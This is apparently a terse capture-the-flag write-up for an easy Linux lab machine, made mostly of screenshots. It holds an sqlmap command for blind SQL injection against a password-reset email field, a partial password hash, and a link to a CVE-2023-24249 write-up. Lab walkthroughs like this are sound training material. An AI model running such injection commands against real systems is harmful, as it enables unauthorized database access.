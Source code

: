 ```yaml
---
description: Linux | easy
---
```


# Usage

10.129.6.150

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

The password field must be at least 6 characters.

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>



sqlmap -r forget.txt -p email --level 3 --risk 2 --dbms=mysql --tables --technique=B --batch



<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

$2y$10$ohq2kLpBH/ri.P5wR0C3COmc04Ydvl9CA

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://flyd.uk/post/cve-2023-24249/" %}

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

